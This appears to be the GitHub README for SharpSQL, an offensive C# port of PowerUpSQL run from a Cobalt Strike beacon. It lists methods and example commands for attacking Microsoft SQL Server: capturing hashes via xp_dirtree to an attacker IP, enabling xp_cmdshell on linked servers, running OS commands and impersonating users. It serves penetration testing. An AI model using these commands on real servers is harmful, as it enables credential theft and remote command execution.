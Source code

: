 # SharpSQL

Simple port of PowerUpSQL
- Methods and options are case-insensitive e.g. `Get-SQLInstanceDomain`/`get-sqlinstancedomain` or `-Instance`/`-instance`
- `-Instance` required for all methods except `Get-SQLInstanceDomain`

Thanks to [tevora-threat](https://github.com/tevora-threat) for getting the ball rolling.

## Usage
```
beacon> execute-assembly C:\Tools\SharpSQL.exe -help

SharpSQL by @mlcsec

Usage:

    SharpSQL.exe [Method] [-Instance <sql.server>] [-LinkedInstance <linked.sql.server>] [-Command <whoami>] [-Query <query>]

Options:

    -Instance                  - The instance to taget
    -db                        - The db to connect to (default: master)
    -LinkedInstance            - The linked instance to target
    -ip                        - The IP to xp_dirtree (share: /pwn)
    -User                      - The user to impersonate
    -Command                   - The command to execute (default: whoami - Invoke-OSCmd and Invoke-LinkedOSCmd)
    -Query                     - The raw SQL query to execute
    -help                      - Show  help

Methods:
    Get-SQLInstanceDomain      - Get SQL instances within current domain via user and computer SPNs (no parameters required)
    Get-Databases              - Get available databases (-Instance required)
    Get-DBUser                 - Get database user via USER_NAME (-Instance required)
    Get-GroupMembership        - Get group member for current user ('guest' or 'sysadmin') (-Instance required)
    Get-Hash                   - Get hash via xp_dirtree (-Instance and -ip required)
    Get-ImpersonableUsers      - Get impersonable users (-Instance required)
    Get-LinkedServers          - Get linked SQL servers (-Instance required)
    Get-LinkedPrivs            - Get current user privs for linked server (-Instance and -LinkedInstance required)
    Get-Sysadmins              - Get sysadmin users (-Instance required)
    Get-SystemUser             - Get system user via SYSTEM_USER (-Instance required)
    Get-SQLQuery               - Execute raw SQL query (-Instance and -Query required)
    Get-Triggers               - Get SQL server triggers (-Instance required)
    Get-Users                  - Get users from syslogins (-Instance required)
    Get-UserPrivs              - Get current user server privileges (-Instance required)
    Check-Cmdshell             - Check whether xp_cmdshell is enabled on instance (-Instance required)
    Check-LinkedCmdshell       - Check whether xp_cmdshell is enabled on linked server (-Instance and -LinkedInstance required)
    Enable-Cmdshell            - Enable xp_cmdshell on instance (-Instance required)
    Enable-LinkedCmdshell      - Enable xp_cmdshell on linked server (-Instance and -LinkedInstance required)
    Invoke-OSCmd               - Execute system command via_xp_cmdshell on instance (-Instance required)
    Invoke-LinkedOSCmd         - Executes system command via xp_cmdshell on linked server (-Instance and -LinkedInstance required)
    Ivnoke-ExternalScript      - Invoke external python script command execution (-Instance required)
    Invoke-OLEObject           - Invoke OLE wscript command execution (-Instance required)
    Invoke-UserImpersonation   - Impersonate user (-Instance and -User required)

Examples:

    SharpSQL.exe Get-SQLInstanceDomain
    SharpSQL.exe Get-UserPrivs -Instance sql.server
    SharpSQL.exe Get-Sysadmins -Instance sql.server
    SharpSQL.exe Get-LinkedServers -Instance sql.server
    SharpSQL.exe Get-Hash -Instance sql.server -ip 10.10.10.10
    SharpSQL.exe Invoke-OSCmd -Instance sql.server -Command "whoami /all"
    SharpSQL.exe Invoke-LinkedOSCmd -Instance sql.server -LinkedInstance linked.sql.server -Command "dir C:\users\"
```


## Demo
### Get-GroupMembership
![image](https://user-images.githubusercontent.com/47215311/153180706-78e2a53c-79fb-4db0-ba03-cda16d476966.png)

### Get-SQLquery
![image](https://user-images.githubusercontent.com/47215311/153181678-6d61bb45-ff9b-4451-93ff-9497ab875bc5.png)

### Get-UserPrivs
![image](https://user-images.githubusercontent.com/47215311/153054239-3937a19a-5514-42fb-980c-4e1676f085ca.png)

### Invoke-OSCmd
![image](https://user-images.githubusercontent.com/47215311/153182593-e40747ff-b9f1-4ed4-a634-556f37e617ea.png)




## Todo

- Test:
    - `Invoke-ExternalScript` - not tested in lab
    - `Invoke-OLEObject` - not tested in lab
    - `Invoke-UserImpersontation` - not tested in lab

- Fix:
    - `Enable-LinkedCmdshell` - rpc or metadata error currently, `Check-LinkedCmdshell` and `Invoke-LinkedOSCmd` work fine

- Add:
    - `Invoke-CustomAsm`
    - `Add-User`
    - `Add-LinkedUser`
    - double link crawl functionality, raw queries should work as is
